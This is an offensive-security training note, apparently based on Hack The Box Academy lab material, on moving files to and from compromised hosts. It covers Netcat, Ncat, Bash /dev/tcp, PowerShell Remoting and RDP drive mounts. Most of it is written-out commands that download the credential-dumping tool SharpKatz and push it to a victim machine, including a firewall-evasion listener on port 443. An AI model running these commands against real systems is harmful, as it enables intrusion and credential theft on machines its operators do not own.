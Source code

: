 # 🚘 Miscellaneous File Transfer

Here we'll see how to transfer files using [Netcat](https://en.wikipedia.org/wiki/Netcat), [Ncat](https://nmap.org/ncat/) and using RDP and PowerShell sessions.

### Netcat

Netcat is used for reading from and writing to network connections using TCP or UDP

**Transfer files ->**

```shell-session
nc -l -p 8000 > SharpKatz.exe
```

Here we use the options for listening with option `-l`, selecting the port to listen with the option `-p 8000`, and redirect the [stdout](https://en.wikipedia.org/wiki/Standard\_streams#Standard\_input\_\(stdin\)) using a single greater-than `>` followed by the filename

and if the compromised machine is using Ncat we'll need to specify `--recv-only` to close the connection once the file transfer is finished.

#### Ncat

```shell-session
 ncat -l -p 8000 --recv-only > SharpKatz.exe
```

**Sending File to Compromised machine**

```shell-session
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted.

**Ncat**

```shell-session
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

***

in scenarios where there's a firewall blocking inbound connections we can  listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework\_4.7\_x64/SharpKatz.exe) as input to Netcat.

```
#On our attack host
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```
#On target machine
nc 192.168.49.128 443 > SharpKatz.exe
```

**Ncat**

```
#On our attack host
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

```
#On target machine
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

***

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

**Sending File as Input to Netcat**

<pre class="language-shell-session"><code class="lang-shell-session">#Original Netcat
<strong>sudo nc -l -p 443 -q 0 &#x3C; SharpKatz.exe
</strong><strong>
</strong>#Ncat
sudo ncat -l -p 443 --send-only &#x3C; SharpKatz.exe
</code></pre>

And then our victim connects to ncat Using /dev/tcp to Receive the File

```shell-session
#Victim
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### PowerShell

If we encounter scenarios where HTTP, HTTPS, or SMB are unavailable we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration.

Here we will transfer a file from `DC01` to `DATABASE01` and vice versa. We have a session as `Administrator` in `DC01`, the user has administrative rights on `DATABASE01`

**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**

```powershell-session
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

**Create a PowerShell Remoting Session to DATABASE01**

```powershell-session
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

**Copy samplefile.txt from our Localhost to the DATABASE01 Session**

```
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

**Copy DATABASE.txt from DATABASE01 Session to our Localhost**

```powershell-session
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

### RDP

We can transfer files using RDP by copying and pasting. We can right-click and copy a file from the Windows machine we connect to and paste it into the RDP session.

If we are connected from Linux, we can use `xfreerdp` or `rdesktop`

As an alternative to copy and paste, we can mount a local resource on the target RDP server. `rdesktop` or `xfreerdp` can be used to expose a local folder in the remote RDP session.

**Mounting a Linux Folder Using rdesktop**

```shell-session
ElFelixi0@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

**Mounting a Linux Folder Using xfreerdp**

```shell-session
ElFelixi0@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

To access the directory, we can connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
